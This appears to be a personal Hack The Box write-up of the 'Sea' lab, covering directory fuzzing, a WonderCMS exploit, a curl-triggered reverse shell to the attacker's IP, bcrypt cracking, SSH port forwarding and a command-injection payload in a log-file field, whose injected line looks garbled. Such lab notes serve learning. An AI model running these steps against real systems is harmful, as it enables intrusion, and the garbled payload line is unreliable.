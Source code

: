 
2024-08-17 13:23

Source: #htb  #privesc #Boot2root 
### Reconnaissance 

- `nmap` scan shows `22/tcp ssh` & `80/tcp http`
- the home page of the website isn't useful 
- on visiting the 2nd page we find a contact button that takes us to `contact.php`

`Contact.php` has a few input fields. The first thing that comes up in mind is XSS. 
trying out XSS payloads don't really do anything
### Enumeration

#### using Dirbuster

open the GUI version of Dirbuster and check the `use Blank Extension` box this will find sub-directories of sub-directories. we find `/themes/bike` gets `301` response. 
#### Alternate using [[ffuf]] 

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ
```
and further find sub-directories of sub-directories of `/themes` (`/themes` was one of the outputs of the above command) we choose `/themes` hoping to find a `cms` 
```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/themes/FUZZ
```
on running `ffuf` again we find a `/bike` directory that has a `301` response.

- we get a `403` error when trying to open this in the browser 
> - Try to put files after `/bike/` like `LICENSE`, `robots.txt`, `README.md` and fortunately `README.md` gave something interesting

- take the `GET` request made to `/themes/bike` that gave us `403` error 
- now in the burp repeater change the `GET` request to `/themes/bike/README.md` and hit
- in the response we see that we have instructions on how to use `WonderCMS`
- above in the dirbuster results we saw a `themes/bike/version` directory that gives us the version of the CMS on visiting the URL.
### Exploit

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the `installModule` component.
- we can get the script for this from github 

- running the exploit and having a netcat listener open doesn't give us a shell 
- we somehow have to trigger the `rev.php` file to make target server’s connection with our machine so, lets run this command in another terminal while having the listener on

I saw this line mentioned multiple times in the code `(“GET”, urlWithoutLogBase+”/themes/revshell-main/rev.php”)` So I just put target URL and gave it a shot!
```shell
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.57&lport=4444'
```

- we have `amay` and `geo` in the home directory 
- without further ado we run `Linpeas` on this 
- in the interesting files section we find a `/var/www/sea/data/database.js`
- on opening this file we find a password hash (possibly amay's ssh password)

[[Cryptography]] before running john through the password we need to reformat it by removing `\` in order to crack it successfully. use John The Ripper
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt filename.txt
```
### Privilege Escalation 

Run `Linpeas`... we don't really find anything
I then decided to check if there is anything on Amay’s local host. To do that there is a technique called [[Port Forwarding]]. It basically takes a user’s port and redirect it’s traffic to our port. run the following on your local machine 
```shell
ssh -L 4444:localhost:8080 amay@sea.htb
```
If you’re logged in, you’re good to go. If not, check what’s running on your localhost:4444 you can check that by this command:
```shell
sudo lsof -i :4444
```
If you see some other services, kill the PID and then try the [[ssh (22 port)]] command again.

go to `localhost:4444` in your local browser and login with username as amay and password as mychemicalromance(cracked hash password)

we see a system monitoring page that is under development and we also see a analyze button that analyses the log files 
keep [[burpsuite]] on for rest of the process

- on capturing the request of analysis of the access.log we don't see anything useful
- we try command [[injection]] in the field that specifies the path of the log file in the burp request and get an error that says `suspicious traffic patterns detected` 

below is the URL encoded payload
```shell
log_file=/root/root.txt%3bcp/dev/shm/sudoers>+/etc/suoderskanalyze_log&analyze_log=
```
What this command did is that it inadvertently redirected the content of this file as output, which was then captured and displayed. The exposure occurred due to unintended side effects of the command’s syntax and execution.

### References
https://app.hackthebox.com/competitive/6/overview

walkthrough - https://medium.com/@haroonharoon17/sea-hack-the-box-walk-through-77b1030ce0bc

CMS exploit - [GitHub - prodigiousMind/CVE-2023-41425: WonderCMS Authenticated RCE - CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----77b1030ce0bc--------------------------------)

